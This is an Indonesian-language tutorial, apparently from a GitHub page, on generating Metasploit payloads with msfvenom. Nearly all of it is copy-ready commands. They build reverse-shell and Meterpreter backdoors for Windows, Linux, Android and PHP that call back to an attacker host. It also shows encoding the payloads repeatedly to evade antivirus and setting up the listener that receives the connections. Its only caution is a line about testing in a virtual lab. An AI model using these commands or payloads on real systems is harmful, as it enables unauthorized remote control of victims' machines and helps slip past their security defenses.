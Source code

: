 # Membuat Payload dengan msfvenom

## Apa Itu msfvenom?

msfvenom adalah tool bawaan dari Metasploit yang digunakan untuk:

- Membuat payload eksploitasi (`reverse shell`, `Meterpreter`, `dll`)
- Meng-encode payload untuk menghindari antivirus
- Meng-output payload dalam berbagai format (`exe`, `elf`, `raw`, `c`, `dll`)

## B. Struktur Dasar Perintah msfvenom

```
msfvenom -p <payload> LHOST=<ip_attacker> LPORT=<port> -f <format_output> -o <nama_file>
```

**Keterangan:**

| Parameter | Fungsi |
|:--:|:--:|
| `-p` | Memilih jenis payload | 
| `LHOST` | IP lokal/attacker |
| `LPORT` |	Port listener di attacker |
| `-f` | Format file output (`exe`, `elf`, `raw`, `dll`) |
| `-o` | Nama file output |
| `-e` | Encoder yang digunakan |
| `-i` | Jumlah iterasi encoder |
| `-n` | Jumlah byte NOP (NOP sled) |

## C. Contoh Payload Windows

### 1. Payload Reverse TCP

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o shell.exe
```

Output: `shell.exe` (bisa dijalankan di sistem Windows)

### 2. Payload Dilengkapi Encoder

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe -o shell_encoded.exe
```

Encoding `5 kali` untuk menghindari deteksi AV

## D. Contoh Payload Linux

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf -o backdoor.elf
```

Output: file `ELF` untuk Linux

## E. Format Output yang Didukung

| Format |	Keterangan |
|:--:|:--:|
| `exe` | Windows executable |
| `elf` |	Linux executable |
| `raw` | Shellcode mentah |
| `c`	| Shellcode dalam array C |
| `python` | Shellcode untuk script Python |
| `asp, jsp, php`	| Webshell payload |
| `dll, macho, rb, dll`	| Format lainnya |

## F. Menampilkan Semua Payload yang Tersedia

```
msfvenom -l payloads
```

## G. Contoh Payload di Format C

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f c
```

Output-nya cocok untuk disisipkan dalam exploit `C` manual.

## H. Membuat Web Payload (PHP/ASP/JSP)
Contoh Payload PHP:

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f raw -o shell.php
```

## I. Memasukkan Bad Characters

Untuk menghindari karakter tertentu seperti `\x00\x0a`, bisa tambahkan:

```
-b "\x00\x0a"
```

**Contoh:**

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -b "\x00\x0a" -f exe -o filtered_shell.exe
```

## J. Payload untuk Android

```
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -o backdoor.apk
```

## K. Listener di Metasploit

Setelah payload dijalankan di target, buka listener:

```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
run
```

## Tips Tambahan

- Selalu uji payload di lab virtual.
- Gunakan encoding bila antivirus mendeteksi payload.
- Tambahkan `NOP sled` jika payload tidak stabil.
